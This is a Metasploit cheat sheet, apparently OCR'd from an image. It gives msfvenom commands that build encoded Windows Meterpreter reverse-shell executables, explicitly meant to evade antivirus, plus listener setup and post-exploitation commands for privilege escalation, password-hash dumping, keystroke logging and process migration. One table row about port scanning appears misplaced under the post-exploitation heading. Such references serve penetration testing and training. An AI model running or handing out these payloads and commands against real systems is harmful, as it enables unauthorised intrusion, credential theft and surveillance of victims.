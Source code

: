 | Listener Setup        | `use exploit/multi/handler`                                          | Set up a listener for incoming connections．                                                                                     |
|                       | `set PAYLOAD [payload_path]`                                         | Match payload to generated file (e.g., `windows/x64/meterpreter/reverse_tcp`)．                                                  |


---

### **Key Notes:**  
1. **Payload Generation**:  
   ```bash
   # Example: Obfuscated Windows payload
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe > payload.exe
   ```
 

---

### **Cheat Sheet Table (Advanced)**  

| **Category**                        | **Command**                                          | **Description**                                      |
| ----------------------------------- | ---------------------------------------------------- | ---------------------------------------------------- |
| **Evasion**                         | `msfvenom --list encoders`                           | List available encoders to evade AV.                 |
|                                     | `msfvenom -p [payload] -e [encoder] -i [iterations]` | Encode payload (e.g., `-e x86/shikata_ga_nai -i 5`). |
|                                     | `set EnableStageEncoding true`                       | Enable payload staging encoding (in `msfconsole`).   |
| **Post-Exploitation (Meterpreter)** | `meterpreter> getuid`                                | Check current user privileges.                       |
|                                     | `meterpreter> getsystem`                             | Attempt privilege escalation.                        |
|                                     | `meterpreter> migrate [PID]`                         | Move to another process (e.g., `explorer.exe`).      |
|                                     | `meterpreter> hashdump`                              | Dump password hashes (requires admin).               |
|                                     | `meterpreter> keyscan_start/stop/dump`               | Log keystrokes from the target.                      |
|                                     | `set PORTS [range]`                                  | Define ports to scan (e.g., `1-1000`)．               |
|                                     | `run`                                                | Execute the scanner                                  |
| **Resource Scripts**                | `makerc [file.txt]`                                  | Save executed commands to a script for reuse.        |
|                                     | `resource [file.txt]`                                | Run commands from a saved script.                    |

---

### **Key Notes:**  
1. **Evasion Techniques**:  
   - Use encoders (`shikata_ga_nai`) and obfuscation to bypass AV.  
   Example:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe > payload_encoded.exe
   ```  
   - **Staged Payloads**: Use `meterpreter/reverse_tcp` (staged) for smaller initial payloads, but riskier under AV scrutiny.  
